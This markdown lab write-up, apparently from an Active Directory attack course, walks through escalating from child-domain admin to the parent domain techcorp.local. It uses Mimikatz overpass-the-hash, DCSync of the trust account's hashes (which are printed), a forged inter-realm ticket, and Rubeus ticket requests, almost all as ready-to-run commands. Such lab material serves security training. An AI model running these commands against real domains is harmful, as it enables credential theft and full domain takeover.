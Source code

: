 # Hands-on 20: Cross Domains Attacks - Trust Key

- [Hands-on 20: Cross Domains Attacks - Trust Key](#hands-on-20-cross-domains-attacks---trust-key)
  - [Task](#task)
  - [Using DA access to us.techcorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, techcorp.local using the domain trust key](#using-da-access-to-ustechcorplocal-escalate-privileges-to-enterprise-admin-or-da-to-the-parent-domain-techcorplocal-using-the-domain-trust-key)

---

## Task

Using DA access to us.techcorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, techcorp.local using the domain trust key.

<br/>

---

## Using DA access to us.techcorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, techcorp.local using the domain trust key

The steps of becoming Domain Admins of `us` is in [Hands-on 11: Unconstrained Delegation](l11-UnconstrainedDelegation.md).

As a result, in an elevated shell, use Over pass-the-hash to create a powershell session:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```
. C:\AD\Tools\Invoke-Mimikatz.ps1; Invoke-Mimikatz -Command '"sekurlsa::pth /domain:us.techcorp.local /user:administrator /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335 /run:powershell.exe"'
```

![picture 23](images/5f46f6e0958c6fac602d856e3d7a26d0b3b106e6d1bfcca0c4f318cfaff42ae9.png)  

<br/>

In the spawned shell, perform a DCSync to obtain the trust key (NTLM of `techcorp$`):

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\techcorp$" "exit"
```

![picture 24](images/d801b25e6946ad2ba5e2818b7791d50e722166be6caace8845f3149024de607e.png)  

Note:
techcorp$
- SID: `S-1-5-21-210670787-2521448726-163245708-1103`
- NTLM: `141575e2fb5277f5f4525cae4d410968`
- AES256: `516cdf14d60f39d0dce08336efc1c7047d987f73fd21257bca6bf1b9786e5ead`

<br/>

Forge an inter-realm TGT:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```
. C:\AD\Tools\Invoke-Mimikatz.ps1; Invoke-Mimikatz -Command '"kerberos::golden /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /rc4:141575e2fb5277f5f4525cae4d410968 /user:Administrator /service:krbtgt /target:techcorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi"'
```

![picture 27](images/3174da8445065d79aea6d336b342d0327b26cd23c4a71ce4e3d892362ab832f6.png)  


<br/>

Then use `Rubeus.exe` to request TGS:

```
C:\AD\Tools\Rubeus.exe asktgs /ticket:trust_tkt.kirbi /service:cifs/techcorp-dc.techcorp.local /dc:techcorp-dc.techcorp.local /ptt
```

![picture 28](images/95869837feaa1a184b688745a5a997f580cfbb1d333ec5007a728feb0fc9dab6.png)  

<br/>

Try to list `techcorp-dc`'s root:

```
ls \\techcorp-dc.techcorp.local\C$
```

![picture 29](images/e8be2b0f95acf889b351b9c224603da52121f4e3b59141a1e131791c7f38087e.png)  


<br/>

To get WinRM:

```
C:\AD\Tools\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:HTTP/techcorp-dc.techcorp.local,HOST/techcorp-dc.techcorp.local /dc:techcorp-dc.techcorp.local /ptt
```

![picture 30](images/ed4f86449c03bef405595e0bfcb360cab22f6bc73ff1442bfc267345e9cdd985.png)  

![picture 31](images/3c7ccc411562cabaf004ca831db549422f73e06283822151f29d8495cacdde08.png)  

<br/>

Access Forest DC:

```
winrs -r:techcorp-dc.techcorp.local cmd.exe
```

![picture 32](images/7253ee4e169820b4a3417eb5f08a056cc08db928a4d57bc6054d555fa423e4b4.png)  

<br/>

However error occurs when running any command.

![picture 33](images/efce0bd68ab8f1b7081095a2f82e2a705b047d24780de39e01081adb6dd41ea2.png)  

